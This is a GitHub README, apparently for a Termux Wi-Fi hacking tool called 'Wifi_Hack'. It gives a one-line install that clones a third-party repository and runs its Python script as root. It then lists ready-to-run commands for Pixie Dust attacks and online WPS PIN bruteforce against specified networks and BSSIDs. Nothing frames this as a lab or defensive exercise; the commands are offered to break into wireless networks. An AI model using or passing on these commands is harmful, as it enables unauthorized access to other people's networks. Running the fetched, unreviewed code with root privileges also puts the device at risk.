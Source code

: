 ## Wifi_Hack
### Hack WIfi Using Termux! (Requires Root)

<p align="center"><img src="https://i.ibb.co/K74g0SC/hulu.jpg"></p>

### Installation :

```bash
apt update && apt upgrade && pkg install -y root-repo && pkg install -y git tsu python wpa-supplicant pixiewps iw && git clone https://github.com/Gtajisan/FxWiFi && cd FxWiFi && chmod +x farhanX.py && sudo python farhanX.py --help
```

#### single command  : `sudo python farhanX.py -i wlan0 -K`
#### Note: 
**First turn off your Wifi.**
- Show avaliable networks and start Pixie Dust attack on a specified network.
- `sudo python farhanX.py -i wlan0 -K`
- - Start Pixie Dust attack on a specified BSSID:
`sudo python farhanX.py -i wlan0 -b 00:91:4C:C3:AC:28 -K`
- Launch online WPS bruteforce with the specified first half of the PIN:
- `sudo python farhanX.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234`
### Troubleshooting
**"Device or resource busy (-16)" - Turn on Wifi and Then Turn off Wifi.**
